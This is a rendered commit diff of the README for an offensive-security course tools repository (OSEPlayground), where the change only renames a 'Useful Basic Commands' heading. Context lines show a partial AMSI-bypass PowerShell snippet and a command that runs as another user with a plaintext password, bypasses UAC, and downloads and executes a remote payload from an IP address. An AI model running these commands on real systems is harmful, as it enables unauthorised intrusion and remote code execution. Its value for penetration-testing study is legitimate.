

Before and after one commit to Extravenger/OSEPlayground, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering.

```diff
--- a/README.md
+++ b/README.md
@@ -3,7 +3,7 @@ Just a bunch of tools built/gathered along the OSEP course.
 1. [Tunneling](#Tunneling)
 2. [MapTheNetwork](#MapTheNetwork)
 3. [AMSI-Bypass](#AMSI-Bypass)
-4. [Useful Basic Commands](#UsefulBasicCommands)
+4. [UsefulBasicCommands](#UsefulBasicCommands)
 
 
 # Tunneling
@@ -44,7 +44,7 @@ $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c
 
 
 
-# Useful Basic Commands:
+# UsefulBasicCommands:
 
 ### <ins>Run command as another user</ins>:
 - `Invoke-RunasCs amit 'Password123!' 'powershell iex(iwr http://192.168.45.185/rev.txt -usebasicparsing)' -ForceProfile -CreateProcessFunction 2 -BypassUac`
```
